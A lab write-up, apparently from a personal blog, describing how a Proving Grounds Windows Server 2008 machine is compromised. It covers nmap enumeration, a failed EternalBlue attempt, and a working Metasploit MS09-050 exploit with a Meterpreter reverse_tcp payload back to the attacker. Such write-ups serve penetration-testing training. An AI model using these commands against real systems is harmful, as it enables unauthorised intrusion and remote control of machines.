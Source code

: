 ```yaml
---
title: "Proving Grounds - Internal"
date: 2024-10-22T00:00:00+00:00
author: Mathijs Verschuuren
layout: post
permalink: /pg-internal/
categories: Labs
tags: [writeup]
---
```

Welcome to another Proving Grounds lab! In this session, we'll walk through the process of exploiting a Windows 2008 server. We'll leverage a variety of techniques, including vulnerability enumeration and Metasploit modules, to gain access to the machine.

## Discovery

We start off with a nmap scan and scan all open tcp ports using the '-p-' argument. The following output appears after waiting for the scan to complete.

```bash
sudo nmap -p- -vv -Pn -A -T4 -sV 192.168.239.40 -oA ./fulltcp
```

The scan completes and reveals that the target is a Windows 2008 Server. Notably, port 445 is open, which often indicates SMB (Server Message Block), and port 3389, typically used for Remote Desktop Protocol (RDP), is also open.

```bash
PORT      STATE SERVICE            REASON          VERSION
53/tcp    open  domain             syn-ack ttl 125 Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
135/tcp   open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 125 Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 125
5357/tcp  open  http               syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49157/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2
```

Upon further investigation, we find that Network Level Authentication (NLA) is not enforced on the RDP service, allowing us to probe the RDP login screen. This lack of NLA provides us with crucial information: usernames and operating system details are leaked on the login screen.

![image](https://github.com/user-attachments/assets/78dd432e-327c-4c2c-a487-bb3a20fcb25d)

Given the presence of port 445/tcp, we check if the server is vulnerable to the notorious MS17_010 (also known as EternalBlue), a vulnerability that can lead to remote code execution and was used in the infamous WannaCry ransomware attack. We perform a quick vulnerability scan for MS17_010.

The scan confirms that the machine appears vulnerable, 

![image](https://github.com/user-attachments/assets/8feea7b6-bb05-478a-8760-fa538f793d1b)

but when attempting to exploit it, we run into a STATUS_ACCESS_DENIED error. This indicates that the named pipes necessary to carry out the attack are inaccessible.

This step is crucial, as certain attacks, including EternalBlue, rely on accessing specific named pipes like srvsvc or spoolss. Unfortunately, none of the named pipes that we require are accessible, preventing us from exploiting MS17_010.

![image](https://github.com/user-attachments/assets/b7e161fa-ad57-47a3-b7db-6d308a166408)

### Another approach

After scanning all the services running on the target machine, we decided to use Nmap's --script vuln feature to check for any known vulnerabilities. In hindsight, it became clear that we might have dived too deep too quickly. Initially, we focused on specific attack vectors without fully exploring the overall landscape. Had we taken more time to enumerate and analyze the exposed services in detail from the beginning, we could have identified this vulnerability much earlier.

Thorough enumeration is often overlooked in favor of quicker exploitation attempts, but it’s a crucial step in any engagement. By taking the time to fully understand the environment, we can avoid missing out on valuable attack surfaces. In this case, had we conducted broader scans earlier, we would have spotted the SMB-related MS09-050 vulnerability right away, allowing us to streamline our approach and avoid unnecessary detours.

This serves as a reminder that, while diving deep into a particular service can sometimes yield results, a more methodical and patient approach to enumeration can save time and provide clearer insight into the full range of attack opportunities.
The output indicated that the target was vulnerable to MS09-050:

![image](https://github.com/user-attachments/assets/193b9898-c39c-477f-9e12-c6e668218640)

MS09-050 refers to a critical vulnerability in the Server Message Block Version 2 (SMBv2) protocol, specifically within the srv2.sys driver on affected Windows operating systems. This vulnerability, also known as CVE-2009-3103, was disclosed in September 2009 and affects Windows Vista, Windows Server 2008, and Windows 7 (pre-release versions). The flaw allows an attacker to craft a specially formed SMB packet and send it to a vulnerable system, which could lead to remote code execution due to a buffer overflow in the handling of the SMBv2 protocol.

This exploit became infamous not only for its severity but also because of its wormable nature. A wormable exploit can automatically propagate between systems without user interaction, making it particularly dangerous in unpatched environments, much like the later EternalBlue exploit that fueled the WannaCry ransomware outbreak in 2017. Wormable vulnerabilities like MS09-050 pose a significant risk to networks, as they can trigger widespread infections by hopping from one vulnerable machine to another, often within minutes.

While not as publicly destructive as EternalBlue, the MS09-050 exploit attracted significant attention in the security community because of the simplicity of the attack and the high privileges an attacker could gain. In an unpatched system, this vulnerability could allow an attacker to gain full control over a machine, potentially leading to the installation of malware, data exfiltration, or lateral movement within the target network.

Microsoft patched the vulnerability in a security update released in 2009, but the exploit remains a stark reminder of the importance of keeping systems up to date, especially in critical network services like SMB. Even now, older or misconfigured systems may still be susceptible, making it a prime target for legacy system attacks.
By reviewing our options, we determined that there is a readily available Metasploit module to exploit MS09-050. The exploit works by sending specially crafted SMB packets to the target system, which can trigger a buffer overflow in the srv2.sys driver, leading to remote code execution.

## Exploit

Here is how we proceeded with the exploitation:

First, we fired up Metasploit and used the following commands to load the appropriate module:

```bash
msfconsole -q
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
```

Next, we set our target details, including the IP address of the Windows Server 2008 machine:

```bash
set RHOST 192.168.239.40
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 443
```

With the settings configured, we initiated the exploit:

![image](https://github.com/user-attachments/assets/a97e0ec0-2eb6-4960-b234-e89d12adbd8c)

The exploit successfully delivered the payload and granted us a Meterpreter shell on the target system.

## Credits

Thank you for following along with this write-up! My aim is to document these processes for future reference while providing insights that can help others in their penetration testing journeys. By sharing the thought process and techniques used in real-world scenarios, I hope to make the concepts more accessible to beginners and intermediate learners alike.
